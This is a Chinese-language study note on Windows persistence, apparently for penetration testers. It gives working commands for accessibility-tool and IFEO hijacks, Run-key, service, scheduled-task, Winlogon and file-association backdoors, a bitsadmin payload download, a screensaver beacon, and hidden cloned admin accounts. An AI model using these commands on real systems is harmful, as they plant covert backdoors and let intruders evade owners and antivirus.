






[toc]

简单记录下Windows权限维持的内容。

# 0x1 辅助功能镜像劫持

先前的版本可以直接更换：

```
屏幕键盘： C:\Windows\System32\osk.exe
放大镜： C:\Windows\System32\Magnify.exe
旁白： C:\Windows\System32\Narrator.exe
显示切换器 C:\Windows\System32\DisplaySwitch.exe
应用切换器： C:\Windows\System32\AtBroker.exe
```

直接命令行：

```sh
copy c:\windows\system32\sethc.ex c:\windows\system32\sethc1.exe
copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```

高版本需要IFEO。所谓的IFEO就是Image File Execution Options，直译过来就是映像劫持。它又被称为“重定向劫持”（Redirection Hijack），它和“映像劫持”（Image Hijack，或IFEO Hijack）只是称呼不同，实际上都是一样的技术手段。白话来讲就是做某个操作的时候被拦截下来，干了别的事。

在iexplorer.exe中加键值对：debugger  c:\windows\system32\cmd.exe


或者直接命令行(需要管理员权限)：

`reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\iexplore.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f`



# 0x2.启动项/服务后门

## 开始菜单启动项

开始菜单启动项，指示启动文件夹的位置，具体的位置是“开始”菜单中的“所有程序”-“启动”选项：

```
C:\Users\SD\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

相关键值：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

重启后会自动自启

## 启动项注册表后门

`HKEY_CURRENT_USER`的改动不需要管理员权限。（更改`HKEY_LOCAL_MACHINE`需要管理员权限）

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```



同样，重启后会自启动。

使用命令行，修改hklm，需要管理员：

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run   /v "123" /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

## 自启动服务后门

>   在 Windows上还有一个重要的机制，也就是服务。服务程序通常默默的运行在后台，且拥有 SYSTEM 权限，非常适合用于后门持久化。我们可以将 EXE /DLL等可执行文件注册为服务实现后门持久化。

可以通过如下命令行方式添加一个服务：

```
sc create asdfadfa binpath=   "C:\Users\SD\Desktop\test.exe"  start= "auto" obj="LocalSystem"
sc start asdfadfa 
```

删除服务：

```
sc delete asdfadfa
```

或者powershell：

```
New-Service -Name "pentestlab" -BinaryPathName "C:\temp\pentestlab.exe" -Description "PentestLaboratories" -StartupType Automatic
sc start pentestlab
```


# 0x3.系统计划任务后门

>   Windows实现定时任务主要有schtasks与at二种方式:
>
>   At 适用于windows xp/2003，Schtasks适用于win7/2008或者以后

`taskschd.msc`

5min执行一次

`schtasks /create /sc minute /mo 5   /tn "aaaa" /tr C:\Windows\System32\cmd.exe`


# 0x4.DLL劫持

>   DLL劫持漏洞之所以被称为漏洞，还要从负责加载DLL的系统API LoadLibrary 来看。熟悉Windows代 码的同学都知道，调⽤ LoadLibrary 时可以使⽤DLL的相对路径。这时，系统会按照特定的顺序搜索⼀ 些⽬录，以确定DLL的完整路径。根据MSDN⽂档的约定，在使⽤相对路径调⽤ LoadLibrary （同样适 ⽤于其他同类DLL LoadLibraryEx，ShellExecuteEx等）时，系统会依次从以下6个位置去查找所需要的 DLL⽂件（会根据SafeDllSearchMode配置⽽稍有不同）。
>
>   1.  程序所在⽬录。
>   2.  加载 DLL 时所在的当前⽬录。
>   3.  系统⽬录即 SYSTEM32 ⽬录。
>   4.  16位系统⽬录即 SYSTEM ⽬录。
>   5.  Windows⽬录。
>   6.  PATH环境变量中列出的⽬录
>
>   dll劫持就发⽣在系统按照顺序搜索这些特定⽬录时。只要⿊客能够将恶意的DLL放在优先于正常DLL所在的⽬录，就能够欺骗系统优先加载恶意DLL，来实现“劫持”。

在win7及win7以上系统增加了KnownDLLs保护，需要在如下注册表下添加dll才能顺利劫持：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

[DLL劫持原理及其漏洞挖掘（一）](https://www.anquanke.com/post/id/225911)

# 0x5.Winlogon用户登录初始化

winlogon.exe是windows中非常重要的进程,在用户还没登录系统之前就已经存在,并与密码验证相关的重要任务精密相关。例如，当在用户登录时，Winlogon 进程负责将用户配置文件加载到注册表中:

```
HKLM\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
```

命令行:

```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"  /v "Userinit" /t REG_SZ /d "C:\Windows\system32\cmd.exe," /f
```

powershell：

```
Set-ItemProperty   "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name   Userinit -value "C:\Windows\system32\userinit.exe,C:\Windows\system32\cmd.exe"
```



# 0x6.Logon Scripts后门

Windows登录脚本，当用户登录时触发，**Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截**。

注册表位置:

```
HKEY_CURRENT_USER\Environment
```



# 0x7.文件关联

文件关联就是将一种类型的文件与一个可以打开它的程序建立起一种依存关系，一个文件可以与多个应用程序发生关联。

可以用assoc命令显示或修改文件扩展名关联，使用ftype显示或修改文件类型


需要管理员权限

```
reg add "HKCR\txtfile\shell\open\command" /ve /t REG_EXPAND_SZ /d "C:\Windows\system32\cmd.exe %1" /f
```



# 0x8.Bitsadmin

>   [BITSAdmin的介绍与Windows渗透测试中的使用](https://toutiao.io/posts/bcz5e1o/preview)
>
>   [bitsadmin一句话下载payload](https://micro8.gitbook.io/micro8/contents-1/41-50/41bitsadmin-yi-ju-hua-xia-zai-payload)

>   Windows操作系统包含各种实用程序，系统管理员可以使用它们来执行各种任务。这些实用程序之一是后台智能传输服务（BITS），它可以促进文件到Web服务器（HTTP）和共享文件夹（SMB）的传输能力。Microsoft提供了一个名为“ bitsadmin ” 的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。

window7以上自带：`c:\windows\system32\bitsadmin.exe`

使用功能transfer参数下载

```
.\bitsadmin.exe /transfer backdoor "http://sssssssss/CM.EXE" C:\1.exe
```

复制本地文件：

BITSAdmin遵循文件传输的原则。因此，可以将其用作复制和粘贴命令。这意味着BITSAdmin也能将同一台计算机上的一个位置传输到另一个位置。

```sh
bitsadmin /create whitehat_day #创建一个whitehat_day的任务。
#使用/addfile参数将传输文件添加到whitehat_day任务中，并声明传输的文件名与路径，和保存位置与名称
bitsadmin /addfile whitehat_day d:\file.txt d:\testfile.txt
bitsadmin /resume whitehat_day#使用/resume参数来开启传输。
bitsadmin /complete whitehat_day#以临时文件的形式传输文件。要获取完整的文件，需要使用/complete参数
Get-ChildItem -Path d:\  #查看目标路径下是否存在file.txt
```

# 0x9.屏幕保护程序

>   利用前提:对方开启了屏幕保护
>
>   屏幕保护程序，当初的设计是为了防止长期屏幕的显示，预防老化与缩短屏幕显示器老化的一种保护程序。

注册表位置:

```
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
```

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\Users\hunter\Desktop\beacon.exe /f
reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f
```

如果从未设置过屏保程序的话，除“ScreenSaveActive”默认值为1，其他键都是不存在的，而屏保程序的正常运行必须保证这几个键都有数据才可以，因此必须把4个键都重写一遍。另外，经测试屏保程序最短触发时间为60秒，即使改成小于60的数值，依然还是60秒后执行程序。
当然，从注册表路径也可以看出这种方式只能获得当前用户权限的shell，优点是不需要提权即可维持。


# 0xA WMI构造无文件后门（待完成）

WMI(Windows Management Instrumentation，即Windows管理规范)，大多数基于Windows的软件依赖于此服务。

>   [WMI的攻击，防御与取证分析技术之攻击篇](https://wooyun.js.org/drops/WMI%20%E7%9A%84%E6%94%BB%E5%87%BB%EF%BC%8C%E9%98%B2%E5%BE%A1%E4%B8%8E%E5%8F%96%E8%AF%81%E5%88%86%E6%9E%90%E6%8A%80%E6%9C%AF%E4%B9%8B%E6%94%BB%E5%87%BB%E7%AF%87.html)
>
>   [wmi与vbs](https://xz.aliyun.com/t/2080)
>
>   [利用WMI构建一个持久化的异步的无文件后门](https://m0nst3r.me/pentest/利用WMI构建一个持久化的异步的无文件后门.html)
>
>   [WMI利用专题](https://blog.51cto.com/antivirusjo/2092545)
>
>   [Powershell攻击指南黑客后渗透之道系列——进阶利用](https://www.anquanke.com/post/id/88851)
>
>   [A WMI Based Agentless Post-Exploitation RAT Developed in PowerShell](https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html)
>
>   [WMI Backdoor](https://www.tuicool.com/articles/zmUVbyJ)
>
>   [Appendix L: Events to Monitor](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/appendix-l--events-to-monitor)
>
>   [利用WMI打造完美“三无”后门](http://demon.tw/copy-paste/vbs-wmi-trojan-3.html)
>
>   [如何检测并移除WMI持久化后门？](https://www.tuicool.com/articles/IzieuyR)
>
>   [解析APT29的无文件WMI和PowerShell后门](https://www.anquanke.com/post/id/85851)
>
>   [无文件攻击的兴起与应对之道](https://www.aqniu.com/learn/31053.html)

# 0xB.影子用户

即创建的隐藏用户，它无法通过普通命令进行查询，比较隐蔽。（要管理员）

创建个隐藏用户

```
net user test$ 123456 /add
net localgroup administrators test$ /add
```

net user无法查看


但是可以在计算机管理和登陆页面中看到

下面解决这个问题：

修改`HKEY_LOCAL_MACHINE\SAM\SAM` admin的权限为完全控制和读取，重新打开后导出3个内容：

test\$导出为1.reg
000003EC包含test$用户的F值，导出另存为2.reg
000003E9包含WIN10用户的F值，导出另存为3.reg



将2.reg中的F值替换为3.reg中的F值，即将test$用户的F值替换为WIN10用户的F值.

删除test\$用户，之后注册表就 无法打开了，导入1,2注册表：


这时登陆界面已经没有账户了，3389可以直接登陆，以test$用户登陆，登陆之后的身份是原来WIN10用户，桌面也是原用户的，达到克隆效果。这个时候再用`net user test$ /del`是删除不掉这个用户的，只能通过注册表来删除。

# 0xC.Netsh

权限要求：未降权的管理员权限。
netsh也是Windows自带的命令，是用来配置网络的命令行工具。该工具可以通过导入helperdll的方式实现功能，且DLL导入后会写进注册表，永久有效.

关于`helper dll`的编写可以参考这个项目：[NetshHelperBeacon](https://github.com/outflanknl/NetshHelperBeacon)

注册表位置：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NetSh`

netsh并不会开启自启动，因此还要再写一条自启动项：
`reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Pentestlab /t REG_SZ /d "cmd /c C:\Windows\System32\netsh"`


>   [Windows权限维持总结](https://xz.aliyun.com/t/9718)
>
>   [Windows权限维持整理](https://xz.aliyun.com/t/8095)
>
>   [权限维持篇](https://bypass007.github.io/Emergency-Response-Notes/privilege/)
>
>   [windows中常见后门持久化方法总结](https://xz.aliyun.com/t/6461)